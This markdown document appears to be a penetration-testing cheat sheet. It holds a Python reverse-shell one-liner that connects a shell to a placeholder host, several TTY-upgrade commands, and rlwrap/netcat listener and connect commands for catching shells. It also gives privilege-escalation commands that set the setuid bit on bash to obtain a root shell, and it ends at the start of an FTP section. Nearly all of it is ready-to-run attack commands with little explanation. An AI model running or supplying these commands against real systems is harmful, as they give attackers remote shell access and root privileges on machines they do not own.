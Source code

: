 ### Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### TTY Support
```bash
bash -i
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
script -qc /bin/bash /dev/null
```
#### rlwrap
> rlwrap is a 'readline wrapper', a small utility that uses the GNU Readline library to allow the editing of keyboard input for any command.
> For when you cannot spawn a proper TTY *[source](https://github.com/hanslub42/rlwrap)*
```bash
rlwrap command
```
```bash
# Receiving connection from a reverse shell
rlwrap nc -lnvp port

# Connecting to the victim
rlwrap nc ip port

# Add actual bash history and to put all words seen on in- and output on the completion list.
rlwrap nc -r -f . nc ip port
```

*[source](https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md)*

# Privilege Escalation
```bash
/bin/cp /bin/bash /tmp/bash_up; /bin/chown user:group /tmp/bash_up; chmod g+s /tmp/bash_up; chmod u+s /tmp/bash_up
/tmp/bash_up -p
```

```bash
chmod 4755 /bin/bash
bash -p
```

# FTP
> *Port: 21*
> 
> File transfer protocol (FTP) is an Internet tool provided by TCP/IP. It helps to transfer files from one computer to another by providing access to directories or folders on remote computers 
